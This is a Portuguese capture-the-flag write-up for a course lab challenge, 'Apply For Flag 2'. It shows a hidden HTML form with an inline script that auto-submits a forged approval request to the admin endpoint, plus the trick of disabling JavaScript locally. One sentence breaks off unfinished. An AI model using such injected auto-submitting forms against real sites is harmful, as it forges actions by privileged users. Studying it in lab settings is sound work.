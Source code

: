 # Apply For Flag 2 - CTF Extra

Ao entrar no site verificamos que é semelhante ao site do CTF da semana 10 'Apply for flag', exceto desta vez o *request* tem um id especifico:

![Request ID](../img/applyforflag1.png)

Verificamos na página do admin que a porta da página muda de 5004 para 5005 e o form do *request* tem esta estrutura:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit"> 
        <input type="submit" id="giveflag" value="Give the flag" disabled="">   
    </div>
</form>
```

`request_id` é aquele apresentado na página inicial. Com isto em conta, construimos um novo form para aceitar o pedido:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo só isto, verifica-se que é feito um redirecionamento para o url da ação da form e não temos permissão para isto. 

![Não permissão](../img/applyforflag2.png)

Assim, devemos impedir o redirecionamento do nosso lado, mas que este seja feito do lado do admin de qualquer maneira, já que o admin tem permissão. Para isto, desabilitamos o javascript da página no nosso browser:

![Desativar javascript](../img/applyforflag3.png)

Fazendo de novo, verificamos que ja é feito o redirecionamento para a página certa, mas o request ainda não foi avaliado.

![Request not evaluated yet](../img/applyforflag4.png)

Isto acontece porque, ao desativar o javascript foi desativado o script que faz reload a página, pelo que é necessario 

![Flag](../img/applyforflag5.png)
